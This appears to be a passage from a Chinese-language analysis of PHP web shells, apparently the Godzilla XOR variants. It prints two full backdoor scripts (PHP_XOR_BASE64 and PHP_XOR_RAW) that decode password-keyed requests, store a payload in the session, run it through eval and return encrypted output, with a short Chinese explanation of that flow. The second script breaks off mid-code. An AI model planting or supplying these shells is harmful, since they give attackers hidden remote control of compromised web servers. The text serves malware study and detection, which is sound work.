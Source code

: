 ```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

通过session来存储payload，检查是否存在密码，存在则将数据进行base64解码然后再XOR得到data。然后再判断是否存在`$_SESSION[$payloadName]` 如果存在则将其取出并解密，然后通过eval执行解密出来的payload，最后返回结果。如果是第一次连接，不存在session时，则对data进行解密，将其存入session中。

### PHP_XOR_RAW

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
```